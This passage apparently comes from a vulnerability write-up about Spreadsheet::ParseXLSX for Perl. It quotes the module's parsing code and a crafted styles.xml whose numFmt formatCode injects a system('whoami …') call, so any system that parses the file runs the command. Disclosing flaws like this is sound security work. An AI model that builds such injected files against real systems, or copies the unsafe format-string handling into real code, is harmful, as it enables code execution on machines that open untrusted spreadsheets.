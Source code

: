 ```perl
        Spreadsheet::ParseExcel::Format->new(%opts)
    } $styles->find_nodes('//s:cellXfs/s:xf');
    # ...
    
    
    return {
        FormatStr => \%format_str,
        Font      => \@font,
        Format    => \@format,
    }
}
```

To inject a format string, we need to add a `<numFmt>` tag, with `formatCode` being the format string, and `numFmtId` being any integer value we want. Here I used `123`.

After that, we'll add one more `<xf>` cell to map to the format string, where `numFmtId` attribute being our chosen id (`123`)

The final xml data I used in the PoC
```xml
<!-- xl/styles.xml -->
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<styleSheet xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" xmlns:mc="http://schemas.openxmlformats.org/markup-compatibility/2006" xmlns:x14ac="http://schemas.microsoft.com/office/spreadsheetml/2009/9/ac" xmlns:x16r2="http://schemas.microsoft.com/office/spreadsheetml/2015/02/main" xmlns:xr="http://schemas.microsoft.com/office/spreadsheetml/2014/revision" mc:Ignorable="x14ac x16r2 xr">
...
  <numFmts count="1">
    <!-- injected format string -->
    <numFmt numFmtId="123" formatCode="[>123;system('whoami > /tmp/inject.txt')]123"/>
  </numFmts> 
...
  <cellXfs count="4">
    <xf numFmtId="0" fontId="0" fillId="0" borderId="0" xfId="0"/>
    <xf numFmtId="0" fontId="0" fillId="0" borderId="0" xfId="0" applyAlignment="1">
      <alignment horizontal="center"/>
    </xf>
    <xf numFmtId="0" fontId="0" fillId="0" borderId="0" xfId="0" applyAlignment="1"/>
    <!-- injected cell format -->
    <xf numFmtId="123" fontId="0" fillId="0" borderId="0" xfId="0" applyAlignment="1"/>
  </cellXfs>
...
</styleSheet>
```

#### Mapping a cell to the cell format
https://github.com/doy/spreadsheet-parsexlsx/blob/80198923186bedda61d4dceb0272210dc8bec533/lib/Spreadsheet/ParseXLSX.pm#L205-L487
```perl
sub _parse_sheet {
    my $sheet_xml = $self->_new_twig(
        twig_roots => {
            #...
            's:sheetData/s:row' => sub {
                my ( $twig, $row_elt ) = @_;
                for my $cell ( $row_elt->children('s:c') ){
                    my $type = $cell->att('t') || 'n';
                    my $val = $val_xml ? $val_xml->text : undef;

                    #...
                    elsif ($type eq 'n') {
                        $long_type = 'Numeric';
                        $val = defined($val) ? 0+$val : undef;
```